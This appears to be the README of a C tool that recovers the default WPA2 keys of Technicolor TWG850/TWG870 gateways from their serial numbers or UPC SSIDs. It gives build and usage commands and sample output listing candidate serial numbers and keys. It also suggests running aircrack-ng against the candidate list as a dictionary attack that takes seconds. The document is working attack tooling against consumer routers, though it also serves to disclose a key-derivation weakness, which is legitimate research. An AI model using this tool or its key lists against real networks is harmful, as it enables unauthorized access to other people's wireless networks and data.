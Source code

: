 # TWG850/TWG870 WPA2 keys

Same as in the [Technicolor TC7200.U](https://haxx.in/upc-wifi/), the Wi-Fi SSID and
password are derived from the device's serial number.
However, for the TWG850-4U, there are around 8000-12000
possible WPA2 keys for each UPC%06d network, as opposed
to ~20 keys in the TC7200.U - still good enough for
a dictionary attack though: `aircrack-ng` takes less than 5 seconds.

The WiFi channel number is also derived from the serial
number, but in such a way that it's guaranteed to be either
channel 1 or 6 (or 11, but the algorithm used almost never
generates channel 11). The distribution is 1/3 channel 1,
and 2/3 channel 6. The channel number printed on the bottom
label is _not_ used!

`$ cc upc-twg8x0.c -o upc-twg8x0`

Print WPA2 key and SSID for a TWG850 with serial number
`00939-907201352`.

```
$ ./upc-twg8x0 twg850 00939907201352
00939-907201352  6   UPC009038  AALOMMAA
```
Get serial numbers and WPA2 keys for SSID `UPC009065`

<pre>
$ ./upc-twg8x0 twg850 UPC009065
[...]
00939-907002034  1   UPC009065  IQVCGOKQ  
00939-907101693  6   UPC009065  IUQQQCBY  
<b>00939-907201352  6   UPC009065  AALOMMAA</b>
00939-907301011  1   UPC009065  QGGQKWBE  
00939-907400670  6   UPC009065  EIMDZWKS
[...]
</pre>

Same as above, but limit search to channel 6

<pre>
$ ./upc-twg8x0 twg850 UPC009065 6
[...]
00939-906500332  6   UPC009065  BDMWZWKE  
00939-907101693  6   UPC009065  IUQQQCBY  
<b>00939-907201352  6   UPC009065  AALOMMAA</b>
00939-907400670  6   UPC009065  EIMDZWKS  
00939-907500329  6   UPC009065  CSAAAAYZ
[...]
</pre>


